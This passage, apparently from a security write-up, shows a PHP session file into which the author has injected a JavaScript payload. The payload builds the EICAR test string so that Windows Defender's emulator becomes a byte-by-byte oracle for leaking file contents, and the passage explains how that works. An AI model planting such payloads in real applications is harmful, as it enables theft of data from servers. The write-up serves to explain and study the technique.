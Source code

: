 Running this and checking the state of the session file now, we can see the
format it gives us on disk:

```php
$ docker exec -it my-apache-php-app cat /tmp/sess_0bb85a780cb24c778ac77a16fc4c866a

realname|s:196:"pzvpUGnz<html><script>f=function(n){eval('X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H'+{8:'*'}[Math.min(8,n)])};f(document.body.innerHTML[0].charCodeAt(0));</script><body>";nickname|s:19:"HACKX</body><title>";secret|s:32:"e81958d8cc55411d0c2576c15aae23d2";
```

Since this looks dodgy, Defender executes this Javascript inside itself, we can then use our
ability to access `document.body.innerHTML` as an oracle and leak byte by byte
characters between the `<body>` tags! That's pretty cool, leaking a file from
disk using an antivirus. However we aren't done just yet, leaking stuff between
body is completely useless :(, since the only things between the two `<body>`
tags is data we've sent and the `nickname` string. So close!
